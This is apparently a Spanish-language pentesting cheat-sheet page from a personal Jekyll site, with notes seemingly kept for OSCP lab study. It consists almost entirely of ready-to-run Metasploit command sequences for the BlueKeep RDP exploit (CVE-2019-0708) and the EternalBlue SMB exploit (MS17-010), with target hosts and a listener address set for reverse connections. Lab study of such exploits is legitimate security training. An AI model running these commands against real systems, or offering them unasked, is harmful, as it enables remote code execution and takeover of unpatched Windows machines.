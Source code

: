 ```yaml
---
layout: article
title: Pentesting - Explotación [Metasploit]
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```

<h2>Escaneo de puertos</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">RDP - 3389</div>
</div>

**Bluekeep**

~~~bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOST 192.168.1.100
set LHOST 192.168.1.150
run
~~~

**Eternalblue**

~~~bash
use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS file:/home/kali/oscp-2020/labs/ip-list.txt
set LHOST 192.168.1.150
run
~~~